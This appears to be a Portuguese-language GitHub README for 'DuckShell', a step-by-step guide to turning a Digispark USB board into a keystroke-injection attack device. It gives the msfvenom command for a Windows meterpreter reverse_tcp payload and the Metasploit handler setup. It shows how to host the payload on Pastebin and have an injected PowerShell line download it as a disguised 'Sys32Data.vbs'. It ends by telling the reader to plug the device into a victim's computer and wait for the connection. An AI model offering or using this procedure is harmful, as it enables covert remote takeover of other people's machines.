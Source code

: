 # DuckShell
=========================================================

#Crie seu Payload atraves do Metasploit usando o seguinte codigo>

msfvenom -p windows/meterpreter/reverse_tcp -f vbs –smallest LHOST=“attacker ip” LPORT=444 -o /root/Desktop/payload.txt
(Substitua "attacker ip" pelo seu ip local)

=========================================================

#Execute o Metasploit

systemctl start postgresql
msfconsole -q
> use exploit/multi/handler
> set PAYLOAD windows/meterpreter/reverse_tcp
> set LHOST "attacker ip"
> set RHOST 444
> exploit

#Jogue o codigo criado no arquivo "payload.txt" no Pastebin:

https://pastebin.com/
(Clique em "Create New Paste" e copie o a url criada para seu arquivo)

=========================================================

#Modifique o arquivo payload.duck inserindo o link do Pastebin na seguinte linha:

(Substitua >>link<< pelo link do Pastebin)
STRING $client.DownloadFile(' >>link<< ','Sys32Data.vbs')

=========================================================

#Execute o duckencoder no arquivo payload.duck

cat payload.duck | python duckencoder.py -p -l br > inject.bin

=========================================================

#Excute o duck2spark no arquivo inject.bin

./duck2spark.py -i inject.bin -l 1 -f 2000 -o inject.ino

=========================================================

#Abra o arquivo inject.ino no Arduino
Site Download Arduino

Windows(https://www.arduino.cc/download.php?f=/arduino-1.8.5-windows.exe)
Linux(https://www.arduino.cc/download_handler.php?f=/arduino-1.8.5-linux64.tar.xz)

=========================================================

#Carregue o codigo através do Arduino em seu Digispark
Site Compra
(https://www.baudaeletronica.com.br/digispark-attiny85.html?gclid=CjwKCAjw8NfrBRA7EiwAfiVJpbY-3W7UOWFbtM9CaCiscVXVHin11btfv47m_17zTJEQGgbhG_D4zhoCnt8QAvD_BwE)

=========================================================

#Agora Basta Apenas Conectar ao Computador da Vitima e esperar a Conexão :)

=========================================================
